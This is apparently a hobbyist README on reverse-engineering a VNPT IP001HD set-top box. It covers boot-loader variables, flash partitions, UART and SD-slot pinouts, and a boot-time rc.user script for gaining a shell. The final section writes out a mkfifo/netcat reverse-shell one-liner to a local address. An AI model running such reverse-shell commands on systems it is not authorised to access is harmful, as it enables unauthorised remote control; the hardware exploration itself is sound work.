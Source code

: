 # vnpt-ipe001hd
VNPT Igate set top box IP001HD

This repository contains data related to VNPT's IP001HD set-top box.
This box has a single core BCM7241 CPU running at 1305MHz along with 1GB DDR3-1866 and 3780MB of flash storage. The architecture is MIPS little endian.
Much of the info below can be obtained from the boot log.

## CFE 

Default environment:
```
CFE> printenv
Variable Name        Value
-------------------- --------------------------------------------------
        BOOT_CONSOLE uart0
 SPLASH_PART_STARTAD 228000
    SPLASH_PART_SIZE 400000
  LINUX_PART_STARTAD 628000
     LINUX_PART_SIZE 1000000
              SPLASH ENABLE
            ETH0_PHY INT
      ETH0_MDIO_MODE 1
          ETH0_SPEED 100
        ETH0_PHYADDR 1
            STARTUP0 boot -z -elf flash0.kernel: 'bmem=192M@64M bmem=512M@512M'
            STARTUP1 boot -z -elf flash0.recovery: 'bmem=192M@64M bmem=512M@512M'
            STARTUP2 sleep 1000 && boot -z -elf usbdisk0:vmlinuz-7429b0 'rootwait root=/dev/sda2 bmem=192M@64M bmem=512M@512M rw init=/init'
            BOOTMODE 0
            CFE_FUSE 11
         ETH0_HWADDR A0:65:18:8B:90:25
          STB_SERIAL 0122403S1F8B9025
         CHIP_SERIAL VNT0121S1F8B9025
            MTDPARTS
          DRAM0_SIZE 1024
          FLASH_TYPE EMMC
          FLASH_SIZE 3780
         CFE_VERSION 14.4
     CHIP_PRODUCT_ID 72410010
       CFE_BOARDNAME BCM97241USFF
      CFE_MEMORYSIZE 128
*** command status = 0

CFE> show devices
Device Name          Description
-------------------  ---------------------------------------------------------
              uart0  16550 DUART at 0xB0406700 channel 0
        flash0.rsv0  EMMC flash at 0000000000000000 offset 0000000000000000 size 32KB : emmc_part_DATA
      flash0.macadr  EMMC flash at 0000000000000000 offset 0000000000008000 size 64KB : emmc_part_DATA
       flash0.nvram  EMMC flash at 0000000000000000 offset 0000000000018000 size 64KB : emmc_part_DATA
        flash0.temp  EMMC flash at 0000000000000000 offset 0000000000028000 size 1024KB : emmc_part_DATA
     flash0.virtual  EMMC flash at 0000000000000000 offset 0000000000128000 size 1024KB : emmc_part_DATA
      flash0.splash  EMMC flash at 0000000000000000 offset 0000000000228000 size 4096KB : emmc_part_DATA
      flash0.kernel  EMMC flash at 0000000000000000 offset 0000000000628000 size 16384KB : emmc_part_DATA
    flash0.recovery  EMMC flash at 0000000000000000 offset 0000000001628000 size 16384KB : emmc_part_DATA
      flash0.system  EMMC flash at 0000000000000000 offset 0000000002628000 size 524288KB : emmc_part_DATA
       flash0.cache  EMMC flash at 0000000000000000 offset 0000000022628000 size 524288KB : emmc_part_DATA
        flash0.data  EMMC flash at 0000000000000000 offset 0000000042628000 size 2778944KB : emmc_part_DATA
        flash0.rsv1  EMMC flash at 0000000000000000 offset 00000000EBFF8000 size 32KB : emmc_part_DATA
         flash1.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT1
         flash2.cfe  EMMC flash at 0000000000000000 offset 0000000000000000 size 1536KB : emmc_part_BOOT2
               eth0  GENET Internal Ethernet at 0xB0700800
*** command status = 0

```
Some notes:
- The trick to append `init=/bin/sh` to `STARTUP` won't work.

## Getting shells

1. UART shell

UART shell can be accessed via J301 header with the following pins respectively: GND-RX-TX-VCC. However, I did not manage to proceed further than the CFE shell, as the Linux system requires logging in. To access the CFE shell, press Ctrl+C repeatedly when powering up the device.

2. System shell

In order to get to the system shell, some techniques need to be used. 

There is an unpopulated micro SD slot at J402 header. I initially thought it was the pinout of the flash chip, however by overlaying the images of the front and back of PCB and aligning the vias, I found out that it is not. The 7241 SoC has at least two SD/eMMC interfaces, one of the goes to the eMMC while the other goes to the header. An interesting note is that this SD card slot connects to the first SD/eMMC bus of the SoC (or at least first in the device tree used to compile the OS), thus getting the first number when enumerated (`mmcblk0` instead of `mmcblk1`). 

You can solder a micro sd slot directly to J402 as its pinout is very straightforward. But for extra clarity, here's the J402 header pinout (from left to right, respectively):
1. DAT1
2. DAT0
3. GND (VSS)
4. CLK
5. VCC (VDD)
6. CMD
7. DAT3
8. DAT2

This lefts the eMMC to the second node (mmcblk1). Booting up with a blank SD card reveals that unfortunately (fortunately for us), the system is hardcoded to use `mmcblk0` to mount /usr and /data. We also know the filesystem type of these two partitions are of ext4. Moreover, it tries to run a script named `rc.user` at the root of the `usr` partition.

With this knowledge, we will proceed to create two partitions on the card. The first partition will be named `usr` and the second partition will be named `data`. 

After creating the partitions, download Busybox for MIPS little endian (https://www.busybox.net/downloads/binaries/1.21.1/busybox-mipsel) and create a file named `rc.user` in root of `usr`. The `rc.user` file is a script that will be executed upon boot. We will use this opportunity to make it establish a reverse shell to our machine. Let's assume that our machine's address is 192.168.1.2.

The `rc.user` script needs to do at least these following things:
1. Copy busybox-mipsel to /bin: `cp busybox-mipsel /bin` because there is no `nc` utility in the box's stock `busybox`.
2. Softlink the nc utility: `ln -s /bin/busybox-mipsel /bin/nc`
3. (optional, if there is no DHCP) `ifconfig eth0 192.168.1.3`
4. Establish reverse shell: `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 4242 >/tmp/f`

To have the system automatically reconnect without having to reboot when we mistakenly press Ctrl+C in the shell, it is good to put the 4th command in a infinite while loop.

That's it! Now our SD card contains the neccessary files to begin hacking the box. Pop it in the soldered sd slot, power the box on and wait for the shell.
